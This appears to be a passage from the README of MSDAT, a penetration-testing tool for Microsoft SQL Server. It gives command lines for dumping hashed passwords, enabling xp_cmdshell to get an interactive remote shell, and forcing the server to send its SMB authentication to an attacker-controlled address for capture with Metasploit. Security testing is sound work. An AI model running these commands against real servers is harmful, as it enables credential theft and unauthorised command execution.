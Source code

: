 *passwordstealer* module
---

To dump hashed passwords :
```bash
./msdat.py passwordstealer -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --dump --save-to-file test.txt
```

This modules has been tested on SQL Server 2000, 2005, 2008 and 2014.

*xpcmdshell* module
---

To execute system commands thanks to *xp_cmdshell* ([https://msdn.microsoft.com/en-us/library/ms190693.aspx](https://msdn.microsoft.com/en-us/library/ms190693.aspx)):
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
```

This previous command give you an interactive shell on the remote database server.

If *xp_cmdshell* is not enabled, the *--enable-xpcmdshell* can be used in this module to activate it:
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

The *--enable-xpcmdshell* option enables *xp_cmdshell* if it is not enabled (not enabled by default).

The *--disable-xpcmdshell* option disables *xp_cmdshell* if this one is enabled.

*smbauthcapture* module
---

Thanks to this module, you can capture a SMB authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --capture $MY_IP_ADDRESS --share-name SHARE
```

To capture the SMB authentication, the *auxiliary/server/capture/smb* ([http://www.rapid7.com/db/modules/auxiliary/server/capture/smb](http://www.rapid7.com/db/modules/auxiliary/server/capture/smb)) module of metasploit could be used:
```bash
msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > exploit
```

The *__capture__* command of this module tries to capture a SMB authentication thanks to *xp_dirtree*, *xp_fileexist* or *xp-getfiledetails* procedure.

If you want to choose the SMB authentication procedure to capture the authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-dirtree-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-fileexist-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-getfiledetails-capture 127.0.0.1
```
